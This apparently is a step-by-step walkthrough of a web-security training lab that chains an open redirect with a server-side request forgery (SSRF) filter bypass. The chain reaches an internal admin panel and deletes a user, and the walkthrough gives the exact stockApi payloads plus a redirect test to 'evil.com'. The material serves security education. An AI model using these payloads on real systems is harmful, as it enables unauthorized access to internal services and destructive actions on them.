

---

## Lab: SSRF with filter bypass via open redirection vulnerability

### Objective  
Change the stock check URL to access the admin interface at  
`http://192.168.0.12:8080/admin`  
and delete the user `carlos`.

### Background  
The stock checker only allows requests to the local application.  
We need to find an **open redirect** in the application first, then use it to bypass the SSRF filter.

---

## Step 1 – Understand the stock check functionality

1. Go to any product page.
2. Click **“Check stock”**.
3. Intercept the request in **Burp Suite**.

You’ll see a request like:

```
POST /product/stock
stockApi=/product/stock/check?productId=1&storeId=1
```

The `stockApi` parameter is used by the server to fetch data from an internal system.

---

## Step 2 – Try direct SSRF (blocked)

Change `stockApi` to:

```
http://192.168.0.12:8080/admin
```

The server rejects it — the stock checker is restricted to local paths only.

So direct SSRF is **filtered**.

---

## Step 3 – Find an open redirect

Click **“Next product”** on the website.  
Look at the request/response.

You might see a redirect like:

```
GET /product/nextProduct?path=/product?productId=2
```

Response:

```
HTTP/1.1 302 Found
Location: /product?productId=2
```

Try changing `path` to an external URL:

```
/product/nextProduct?path=http://evil.com
```

If the app redirects to `http://evil.com` — that’s an **open redirect**.

Yes — the app blindly uses the `path` parameter in the `Location` header.

---

## Step 4 – Chain open redirect with SSRF

Now combine them:

1. The stock checker can only call local paths like `/product/nextProduct?path=...`
2. But `/product/nextProduct` can redirect to **any URL**.

So we make the stock checker call the **redirector**, which sends it to the admin interface.

---

### Step 4.1 – Test redirection to admin

In the stock checker request, set:

```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Send it.

The server will:
1. Fetch `/product/nextProduct?path=http://192.168.0.12:8080/admin` (locally allowed)
2. Get a `302` redirect to `http://192.168.0.12:8080/admin`
3. Follow it and show the admin page in the stock check response.

✅ You should see the admin panel HTML.

---

## Step 5 – Delete Carlos

Change the `path` to delete the user:

```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

Send the request.

If successful, the response will confirm deletion or redirect back to admin panel.

---

## Step 6 – Verify solution

The lab should solve automatically when the request is processed correctly.

---

## Final payload

```
POST /product/stock
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

---

Lab: SSRF with filter bypass via open redirection vulnerability
